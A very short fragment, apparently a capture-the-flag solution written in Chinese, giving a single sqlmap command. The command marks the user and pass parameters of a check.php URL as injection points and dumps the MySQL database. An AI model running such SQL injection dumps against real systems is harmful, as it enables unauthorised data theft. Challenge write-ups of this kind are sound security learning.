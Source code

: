 # 解

sqlmap手动指定注入点即可
```console
$ sqlmap -u "http://DOMAIN_SUFFIX.weilei.software//check.php?data=user:*|pass:*" --dbms=mysql --dump
```